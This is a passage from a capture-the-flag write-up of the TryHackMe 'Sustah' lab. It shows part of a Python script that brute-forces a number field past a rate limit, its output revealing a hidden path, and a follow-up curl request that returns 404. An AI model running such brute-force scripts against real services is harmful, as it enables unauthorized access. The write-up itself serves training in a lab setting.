 data = {"number":num}
try:
print(f"[...] data={data}")
response = requests.post(url=url, headers=headers, data=data)
except requests.exceptions.RequestException as e:
print(e)
content = response.text
for line in content.split("\n"):
if "h3" in line and incorrect_num not in content:
print("[+] Response: {line}")
{% endhighlight %}

<p class="message">
❗ Add the <code>try-except</code> to handle the <strong>Rate Limit</strong> error .

</p>

And this is the result:

```
┌──(kali㉿kali)-[~/TryHackMe/sustah]
└─$ python3 brute_force.py
[...] data={'number': 10000}
[...] data={'number': 10001}
[...] data={'number': 10002}
[...] data={'number': 10003}
[---snipped---]
[...] data={'number': [REDACTED]}
[+] Response:     <h3>path: /[REDACTED]</h3>
```

Since I found the correct number and got the hidden path, I’ve routed to that path following the port `8085` but it has respond with `404` error code which means that path might only work on port `80` instead of `8085`:

```
┌──(kali㉿kali)-[~/TryHackMe/sustah]
└─$ curl http://sustah.thm:8085/[REDACTED]/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
```

So I remove the `8085` number to check out the path on the default http port and I get the name of the running **CMS** of the server:
